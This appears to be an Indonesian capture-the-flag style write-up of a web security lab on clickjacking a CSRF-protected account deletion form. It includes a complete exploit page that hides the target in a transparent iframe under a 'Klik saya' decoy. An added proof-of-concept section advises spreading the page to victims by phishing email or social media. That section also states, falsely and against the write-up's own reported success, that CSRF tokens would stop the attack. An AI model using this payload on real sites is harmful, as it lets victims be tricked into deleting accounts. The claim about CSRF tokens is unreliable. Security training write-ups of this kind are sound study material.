# Clickjacking Dasar dengan Perlindungan Token CSRF

## Latar Belakang
Lab ini berisi fungsi login dan tombol hapus akun yang dilindungi oleh token CSRF. Seorang pengguna akan mengklik elemen yang menampilkan kata "klik" di situs web umpan.

Untuk menyelesaikan lab, buat beberapa HTML yang membingkai halaman akun dan menipu pengguna untuk menghapus akun mereka. Lab dianggap selesai ketika akun dihapus.

Anda dapat masuk ke akun Anda sendiri menggunakan kredensial berikut: wiener:peter

## Eksploitasi
Masuk sebagai pengguna wiener:




Di sini, kita dapat memperbarui email dan menghapus akun.

Lihat sumber halaman:

```html
<div id=account-content>
    <p>Your username is: wiener</p>
    <form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
        <label>Email</label>
        <input required type="email" name="email" value="">
        <input required type="hidden" name="csrf" value="9QQV1ykloZOA78c916sgooRLy8SJZEbD">
        <button class='button' type='submit'> Update email </button>
    </form>
    <form id=delete-account-form action="/my-account/delete" method="POST">
        <input required type="hidden" name="csrf" value="9QQV1ykloZOA78c916sgooRLy8SJZEbD">
        <button class="button" type="submit">Delete account</button>
    </form>
</div>
```

Juga, mereka menggunakan token CSRF untuk mencoba mencegah serangan CSRF.

Sekarang, mari kita bangun sebuah `<iframe>` tersembunyi dan teks clickbait:

```html
<html>
    <head>
        <title>Clickjacking Dasar dengan Perlindungan Token CSRF</title>
        <style type="text/css">
            #targetWebsite {
                position:relative;
                width:700px;
                height:700px;
                opacity:0.0001;
                z-index:2;
            }

            #decoyWebsite {
                position:absolute;
                top:495px;
                left:60px;
                z-index:1;
            }
        </style>
    </head>
    <body>
        <div id="decoyWebsite">Klik saya</div>
        <iframe id="targetWebsite" src="https://0a2f006904c03654c0f5634d009f00aa.web-security-academy.net/my-account"></iframe>
    </body>
</html>
```

Kemudian, host halaman tersebut di server exploit, dan kirimkan ke korban:




Kita berhasil!

# Apa yang telah kita pelajari:
Clickjacking dasar dengan perlindungan token CSRF

# PoC (Proof of Concept)

Untuk membuat Proof of Concept (PoC) dari clickjacking dasar dengan perlindungan token CSRF seperti yang dijelaskan di atas, ikuti langkah-langkah berikut:

1. **Buat Halaman Eksploitasi:**
   Buat file HTML dengan kode berikut dan simpan sebagai `exploit.html`:

   ```html
   <html>
       <head>
           <title>Clickjacking Dasar dengan Perlindungan Token CSRF</title>
           <style type="text/css">
               #targetWebsite {
                   position:relative;
                   width:700px;
                   height:700px;
                   opacity:0.0001;
                   z-index:2;
               }

               #decoyWebsite {
                   position:absolute;
                   top:495px;
                   left:60px;
                   z-index:1;
               }
           </style>
       </head>
       <body>
           <div id="decoyWebsite">Klik saya</div>
           <iframe id="targetWebsite" src="https://0a2f006904c03654c0f5634d009f00aa.web-security-academy.net/my-account"></iframe>
       </body>
   </html>
   ```

2. **Host Halaman Eksploitasi:**
   Unggah file `exploit.html` ke server exploit Anda. Anda dapat menggunakan server lokal atau layanan hosting web yang Anda miliki.

3. **Distribusikan Eksploitasi:**
   Kirimkan tautan ke `exploit.html` kepada korban, misalnya melalui email phishing atau media sosial.

4. **Aktivasi Eksploitasi:**
   Ketika korban mengunjungi halaman exploit, mereka akan melihat teks "Klik saya". Ketika mereka mengklik teks tersebut, sebenarnya mereka mengklik tombol "Hapus akun" di dalam iframe yang hampir tidak terlihat. Karena token CSRF sudah terlindungi, serangan ini tidak akan berhasil dalam konteks yang aman, tetapi ini menunjukkan bagaimana clickjacking dapat dilakukan.

5. **Konfirmasi Hapus Akun:**
   Jika serangan berhasil (yang seharusnya tidak terjadi karena perlindungan CSRF), akun pengguna akan dihapus, dan lab dianggap selesai.
